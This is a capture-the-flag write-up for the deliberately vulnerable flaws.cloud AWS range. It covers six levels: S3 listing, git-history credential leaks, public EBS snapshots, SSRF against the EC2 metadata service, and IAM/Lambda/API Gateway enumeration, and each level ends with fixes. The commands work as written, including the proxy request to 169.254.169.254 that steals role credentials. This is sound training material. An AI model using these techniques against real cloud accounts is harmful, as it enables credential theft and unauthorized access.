# flaws.cloud — Complete CTF Writeup

> **Platform:** [flaws.cloud](http://flaws.cloud/) — an AWS-focused CTF by Scott Piper  
> **Topics:** S3 Misconfigurations · Git Leaks · IAM Enumeration · EC2 Snapshots · SSRF / IMDS · API Gateway  
> **Tools:** AWS CLI · dig · nslookup · git · SSH

---

## Table of Contents
- [Level 1 — Public S3 Bucket](#level-1--public-s3-bucket)
- [Level 2 — Any AWS Authenticated User](#level-2--any-aws-authenticated-user)
- [Level 3 — Git History Leak](#level-3--git-history-leak)
- [Level 4 — Public EBS Snapshot](#level-4--public-ebs-snapshot)
- [Level 5 — SSRF via EC2 Metadata](#level-5--ssrf-via-ec2-metadata)
- [Level 6 — IAM Enumeration → Lambda → API Gateway](#level-6--iam-enumeration--lambda--api-gateway)

---

## Level 1 — Public S3 Bucket

**Start URL:** http://flaws.cloud/

### Attack Summary
> The site is hosted on an S3 bucket that allows **public listing**. By resolving the domain to its S3 endpoint and running `aws s3 ls` without credentials, we can enumerate all files and grab the secret.

### Step 1 — DNS Enumeration

```bash
dig +nocmd flaws.cloud
```

The response returns 8 A records. Most resolve to CloudFront — one resolves to an S3 endpoint.



### Step 2 — Identify the S3 Endpoint

```bash
nslookup 52.92.229.227
```

The reverse lookup reveals:

```
227.229.92.52.in-addr.arpa  name = s3-website-us-west-2.amazonaws.com
```

This confirms the bucket name is `flaws.cloud` and the region is `us-west-2`.

### Step 3 — List Bucket Without Credentials

```bash
aws s3 ls s3://flaws.cloud --no-sign-request --region us-west-2
```

```
2017-03-14  hint1.html
2017-03-03  hint2.html
2017-03-03  hint3.html
2024-02-22  index.html
2018-07-10  logo.png
2017-02-27  robots.txt
2017-02-27  secret-dd02c7c.html   ← target
```

### Step 4 — Retrieve the Secret File

```bash
aws s3 cp s3://flaws.cloud/secret-dd02c7c.html . --no-sign-request --region us-west-2
cat ./secret-dd02c7c.html
```



### Lesson Learned

S3 buckets are private by default. The flaw here was explicitly granting **"Everyone" → List** permission, which allows unauthenticated directory listing — the same mistake as leaving directory listing on in a web server.

**Fix:** Remove the public `s3:ListBucket` ACL. Only grant `s3:GetObject` if you need public file access.

---

## Level 2 — Any AWS Authenticated User

**Start URL:** http://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud/

### Attack Summary
> The bucket grants **List** permission to **"Any Authenticated AWS User"** — meaning *any* AWS account, not just the owner's. A personal test AWS account is enough to enumerate and download files.



### Step 1 — Configure a Personal AWS Profile

```bash
aws configure --profile Shri
# Enter your AWS Access Key ID, Secret, and region
aws sts get-caller-identity --profile Shri
```

### Step 2 — List the Bucket with Your Profile

```bash
aws s3 --profile Shri ls s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud
```

```
2017-02-27  everyone.png
2017-03-03  hint1.html
2017-02-27  hint2.html
2017-02-27  index.html
2017-02-27  robots.txt
2017-02-27  secret-e4443fc.html   ← target
```

### Step 3 — Download and Read the Secret

```bash
aws s3 --profile Shri cp s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud/secret-e4443fc.html .
cat ./secret-e4443fc.html
```



### Lesson Learned

**"Any Authenticated AWS User"** does not mean *your* users — it means anyone with any AWS account on the internet. This is a common misunderstanding.

**Fix:** Grant permissions only to specific IAM principals (users, roles, or account IDs), never to `AuthenticatedUsers`.

---

## Level 3 — Git History Leak

**Start URL:** http://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/

### Attack Summary
> The S3 bucket was synced from a git repository and the `.git/` directory was accidentally uploaded along with the site. By checking the git log, we find a previous commit that included AWS credentials before they were deleted.



### Step 1 — Recursive Bucket Listing Reveals `.git/`

```bash
aws s3 --profile Shri ls s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud --recursive
```

Among the results: `.git/HEAD`, `.git/config`, `.git/objects/…` — a full git repo is exposed.



### Step 2 — Sync the Entire Bucket Locally

```bash
aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/ . \
  --no-sign-request --region us-east-1
cd .git
```

### Step 3 — Inspect Git History

```bash
git log
```

```
commit b64c8dcfa8a39af06521cf4cb7cdce5f0ca9e526  (HEAD -> master)
    Oops, accidentally added something I shouldn't have

commit f52ec03b227ea6094b04e43f475fb0126edb5a61
    first commit
```

The first commit message says it all. Using `git show`:

```bash
git show f52ec03b227ea6094b04e43f475fb0126edb5a61
```

```
diff --git a/access_keys.txt b/access_keys.txt
--- a/access_keys.txt
+++ /dev/null
-access_key AKIA•••••••••••••••••
-secret_access_key [REDACTED]
```



### Step 4 — Configure Profile with Leaked Credentials

```bash
aws configure --profile flaws-lvl3
# AWS Access Key ID:     AKIA•••••••••••••••••
# AWS Secret Access Key: [REDACTED]

aws sts get-caller-identity --profile flaws-lvl3
```

```json
{
  "UserId": "AIDAJQ3H5DC3LEG2BKSLC",
  "Account": "975426262029",
  "Arn": "arn:aws:iam::975426262029:user/backup"
}
```

### Step 5 — List All Buckets in the Account

```bash
aws --profile flaws-lvl3 s3 ls
```

This lists every bucket in the account, including all future level buckets — a major over-privilege for a `backup` user.



### Lesson Learned

Deleting a secret from a file and committing the deletion does **not** erase it from git history. Any previously committed secret remains fully recoverable.

**Fix:** Use tools like `git-filter-repo` to scrub secrets from history. Rotate any credentials that were ever committed, regardless of whether they were "deleted" later. Use `.gitignore` for credential files and a secret scanner in CI.

---

## Level 4 — Public EBS Snapshot

**Start URL:** http://level4-1156739cfb264ced6de514971a4bef68.flaws.cloud/

### Attack Summary
> An EC2 EBS snapshot was made **publicly accessible**. Using the backup IAM credentials from Level 3, we can find the snapshot, create a volume from it in our own account, mount it on our EC2 instance, and read files that contain credentials for the Level 4 website.

### Step 1 — Find the Public Snapshot

```bash
aws ec2 describe-snapshots \
  --profile flaws-lvl3 \
  --owner-id 975426262029 \
  --region us-west-2
```

```json
{
  "SnapshotId": "snap-0b49342abd1bdcb89",
  "Tags": [{"Key": "Name", "Value": "flaws backup 2017.02.27"}],
  "VolumeSize": 8,
  "Encrypted": false
}
```



### Step 2 — Create a Volume from the Snapshot (in Your Own Account)

```bash
aws ec2 create-volume \
  --availability-zone us-west-2a \
  --region us-west-2 \
  --snapshot-id snap-0b49342abd1bdcb89 \
  --profile Shri
```

Note the returned `VolumeId` (e.g. `vol-007952cf25b4364e5`).

### Step 3 — Attach the Volume to Your EC2 Instance

```bash
aws ec2 attach-volume \
  --volume-id vol-007952cf25b4364e5 \
  --instance-id i-0e1980be40192f0d2 \
  --device /dev/sdf \
  --profile Shri \
  --region us-west-2
```

### Step 4 — Mount and Explore the Snapshot

```bash
ssh -i test.pem ubuntu@35.88.105.168
sudo mount /dev/nvme1n1p1 /mnt/snapshot
cd /mnt/snapshot/home/ubuntu
ls
# meta-data  setupNginx.sh
cat setupNginx.sh
```

```bash
htpasswd -b /etc/nginx/.htpasswd flaws [REDACTED]
```

**Credentials:** `flaws` / `[REDACTED]`



### Step 5 — Enter Credentials on the Level 4 Site → Solved ✓

### Lesson Learned

EBS snapshots are silently shareable with the entire world. A "backup" snapshot often contains configuration files, secrets, and credentials that are not present on a live system.

**Fix:** Never make snapshots public. Encrypt EBS volumes at rest. Audit all existing snapshots with `aws ec2 describe-snapshots --owner-id self` and check their `CreateVolumePermissions`.

---

## Level 5 — SSRF via EC2 Metadata Service (IMDS)

**Start URL:** http://level5-d2891f604d2061b6977c2481b0c8333e.flaws.cloud/243f422c/

### Attack Summary
> The Level 5 site runs a proxy that forwards arbitrary HTTP requests. By pointing this proxy at the EC2 Instance Metadata Service (IMDS) on `169.254.169.254`, we can retrieve the IAM role credentials attached to the EC2 instance — without any prior authentication.

### Step 1 — Use the Proxy to Hit IMDS

The site exposes a proxy endpoint. Navigate to:

```
http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials/flaws
```

This returns the temporary credentials for the `flaws` IAM role:

```json
{
  "Code": "Success",
  "Type": "AWS-HMAC",
  "AccessKeyId": "ASIA•••••••••••••••••",
  "SecretAccessKey": "[REDACTED]",
  "Token": "[SESSION_TOKEN_REDACTED]",
  "Expiration": "2026-08-04T23:16:11Z"
}
```



### Step 2 — Configure the Stolen IAM Credentials

```bash
aws configure --profile flaws-lvl5
# Access Key ID:     ASIA•••••••••••••••••
# Secret Access Key: [REDACTED]
# Session Token:     <paste the full token>

aws sts get-caller-identity --profile flaws-lvl5
```

```json
{
  "Arn": "arn:aws:sts::975426262029:assumed-role/flaws/i-05bef8a081f307783"
}
```

### Step 3 — List the Level 6 Bucket

```bash
aws s3 ls s3://level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud/ \
  --profile flaws-lvl5
```

```
PRE ddcc78ff/
```

Accessing `ddcc78ff/` as a subdirectory gives us the Level 6 URL.



### Lesson Learned

`169.254.169.254` is the magic IP for EC2 IMDS. Any application running on EC2 that proxies user-controlled URLs can be abused to exfiltrate the instance's IAM credentials — giving an attacker full access to whatever that role can do.

**Fix:** Enable **IMDSv2** (token-required mode), which prevents simple SSRF attacks. Restrict the IAM role to the minimum permissions needed. Block IMDS access from application code that doesn't need it using host-based firewalls.

---

## Level 6 — IAM Enumeration → Lambda → API Gateway

**Start URL:** http://level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud/ddcc78ff/

### Attack Summary
> We are given an IAM user key with the `SecurityAudit` policy and a custom `list_apigateways` policy. By enumerating IAM, we discover a Lambda function whose invocation URL is the final answer — reachable only after chaining: list policies → find Lambda → get policy → discover API Gateway → invoke endpoint.

Credentials given on the page:
- **Access Key ID:** `AKIA•••••••••••••••••`
- **Secret:** `[REDACTED]`

### Step 1 — Configure and Verify

```bash
aws configure --profile flaws-lvl6
aws sts get-caller-identity --profile flaws-lvl6
```

```json
{ "Arn": "arn:aws:iam::975426262029:user/Level6" }
```

### Step 2 — Enumerate IAM

```bash
# List all users in the account
aws iam list-users --profile flaws-lvl6

# List all roles
aws iam list-roles --profile flaws-lvl6

# Find policies attached to our user
aws iam list-attached-user-policies \
  --user-name Level6 \
  --profile flaws-lvl6
```



**Attached policies for Level6:**
- `MySecurityAudit` — broad read-only access
- `list_apigateways` — custom policy, interesting!

### Step 3 — Inspect the Custom Policy

```bash
# Get policy metadata
aws --profile flaws-lvl6 iam get-policy \
  --policy-arn arn:aws:iam::975426262029:policy/list_apigateways

# Get the actual policy document
aws --profile flaws-lvl6 iam get-policy-version \
  --policy-arn arn:aws:iam::975426262029:policy/list_apigateways \
  --version-id v4
```

```json
{
  "Statement": [{
    "Action": ["apigateway:GET"],
    "Effect": "Allow",
    "Resource": "arn:aws:apigateway:us-west-2::/restapis/*"
  }]
}
```



We can list and read API Gateways in `us-west-2`.

### Step 4 — Find the Lambda Function

The `SecurityAudit` policy includes Lambda read access:

```bash
aws lambda list-functions \
  --profile flaws-lvl6 \
  --region us-west-2
```

```json
{
  "FunctionName": "Level6",
  "FunctionArn": "arn:aws:lambda:us-west-2:975426262029:function:Level6",
  "Runtime": "python2.7",
  "Role": "arn:aws:iam::975426262029:role/service-role/Level6"
}
```

```bash
# Check the Lambda's resource-based policy
aws lambda get-function-policy \
  --function-name Level6 \
  --profile flaws-lvl6 \
  --region us-west-2
```

This shows the Lambda is invokable by API Gateway — confirming there's a public endpoint.

### Step 5 — Enumerate the API Gateway

```bash
# Get the REST API details
aws apigateway get-rest-api \
  --rest-api-id s33ppypa75 \
  --region us-west-2 \
  --profile flaws-lvl6

# List all resources/paths
aws apigateway get-resources \
  --rest-api-id s33ppypa75 \
  --region us-west-2 \
  --profile flaws-lvl6

# Find the deployed stage
aws apigateway get-stages \
  --rest-api-id s33ppypa75 \
  --region us-west-2 \
  --profile flaws-lvl6
```

```json
{ "stageName": "Prod", "deploymentId": "8gppiv" }
```



### Step 6 — Invoke the Endpoint → Final Flag

Construct the URL: `https://{rest-api-id}.execute-api.{region}.amazonaws.com/{stage}/{resource}`

```
https://s33ppypa75.execute-api.us-west-2.amazonaws.com/Prod/level6
```

Visiting this URL returns the final endpoint:

```
http://theend-797237e8ada164bf9f12cebf93b282cf.flaws.cloud/d730aa2b
```



### Lesson Learned

Read-only IAM permissions like `SecurityAudit` are not harmless. The ability to read your own IAM policies, list Lambda functions, and enumerate API Gateways tells an attacker exactly what exists and how to reach it. Chaining these "innocent" read operations leads directly to a working attack path.

**Fix:** Apply least-privilege to read-only roles too. Avoid granting broad `SecurityAudit`-style policies to non-admin users. Treat your IAM policy configuration as sensitive information.

---

## Summary Table

| Level | Vulnerability | AWS Service | Key Command |
|-------|--------------|-------------|-------------|
| 1 | Public bucket listing | S3 | `aws s3 ls --no-sign-request` |
| 2 | Any authenticated AWS user | S3 | `aws s3 ls --profile <any-account>` |
| 3 | Git history with leaked credentials | S3 + IAM | `git log` + `git show <commit>` |
| 4 | Public EBS snapshot | EC2 + EBS | `aws ec2 describe-snapshots` |
| 5 | SSRF → IMDS credential theft | EC2 + IAM | Proxy to `169.254.169.254` |
| 6 | IAM enumeration → Lambda invocation | IAM + Lambda + API GW | `iam get-policy` → `apigateway get-stages` |

---

## Key Takeaways

- **Never make S3 buckets publicly listable** — even if the files inside are meant to be public.
- **"Any Authenticated AWS User" ≠ your users** — it means the entire internet.
- **Deleting secrets from git does not erase them** — scrub history and rotate keys.
- **EBS snapshots can contain secrets** — never share them publicly; encrypt all volumes.
- **Enable IMDSv2** on all EC2 instances to prevent SSRF-based credential theft.
- **Read-only IAM permissions are still permissions** — enumeration is the first step of every attack.

---

*Writeup by Shrikrishna · flaws.cloud by [Scott Piper](https://summitroute.com/)*
